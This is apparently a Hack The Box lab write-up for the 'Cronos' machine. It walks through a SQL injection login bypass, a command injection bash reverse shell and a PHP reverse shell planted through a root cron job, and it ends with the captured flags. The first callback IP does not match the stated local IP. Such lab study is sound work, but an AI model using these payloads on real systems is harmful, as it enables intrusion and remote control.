 # HTB: Cronos

## Engagement Overview

**Target:** Cronos  
**Box IP:** 10.10.10.13   
**Local IP:** 10.10.14.10   
**Date:** 2025-07-12

---

### Objectives

- Exploit SQL injection and command injection to obtain a shell
- Compromise cron jobs to achieve privilege escalation to root
- Capture user and root flags

---

## Service Enumeration

```bash
# Nmap (condensed)
nmap -sC -sV -oN nmap.txt 10.10.10.13
```

**Relevant output (condensed):**

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1
53/tcp open  domain  ISC BIND 9.10.3-P4
80/tcp open  http    Apache httpd 2.4.18 (Ubuntu)
```

- DNS SOA present for `cronos.htb`
- Gobuster found nothing useful in this engagement
- Burp Suite repeater demonstrated directory listings via command injection payloads

---

## Initial Access

### SQL Injection → Command Injection

- Bypassed login at `admin.cronos.htb` using typical injection: `' or 1=1-- -`
- Used Burp Suite to craft a command injection payload via a parameter that executed arbitrary commands on the server, e.g.:
  ```
  command=bash -c 'bash -i >& /dev/tcp/10.10.14.24/443 0>&1'&host=/var/www
  ```
- Result: web shell / interactive command execution as `www-data`

---

## Privilege Escalation

### Cron Job Poisoning

- Observed root cron entry running Laravel scheduled task:
  ```
  * * * * *  root  php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
  ```
- Injected a payload that opened a reverse shell to attacker host via PHP/command injection; cron executed as root and provided a root shell.

**Example payload used (conceptual):**
```php
$sock=fsockopen("10.10.14.10",443);
exec("/bin/sh -i <&3 >&3 2>&3");
```

**Flags captured:**
- `user.txt`: `e053208bdfc3ad87d7d492285a15512a`
- `root.txt`: `d800ebbbb59fee6c01e6e2f208e41416`

---

## House Cleaning / Post-Exploitation

- Removed uploaded artifacts and reversed modifications to artisan where applicable
- Removed `linpeas.sh` and cleared evidence as appropriate

---

## Tools Utilized
- nmap, gobuster, Burp Suite, linPEAS

---

## Key Takeaways
- SQL injection can be escalated to command injection and full compromise when input is unsafely executed server-side.
- Cron jobs that execute web-app-supplied content are high-risk and should be restricted/validated.
- Comprehensive application-level hardening and least privilege for scheduled tasks are crucial.
